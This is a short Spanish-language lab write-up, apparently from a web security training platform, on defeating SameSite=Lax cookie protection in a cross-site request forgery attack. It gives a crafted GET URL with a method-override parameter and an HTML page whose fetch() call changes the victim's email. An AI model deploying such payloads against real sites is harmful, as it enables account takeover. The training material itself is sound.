 La cookie de sesión tiene Samesite=Lax por defecto, por lo que no puede ser enviada al hacer una solicitud desde nuestro dominio de ataque al otro dominio, por lo que no se incluirá en el POST al hacer la petición al cambio de correo.

Con lax solo se pueden enviar por GET, en este caso no se puede transformar la solicitud POST, pero si nos ha dejado hacer esto:

```
https://0a8c00d704be405382cd109300d200d3.web-security-academy.net/my-account/change-email?email=test111%40test.com&_method=POST
```

```html
<html>
    <script>
			fetch('https://0a8c00d704be405382cd109300d200d3.web-security-academy.net/my-account/change-email?email=test111%40test.com&_method=POST');
    </script>
</html>
```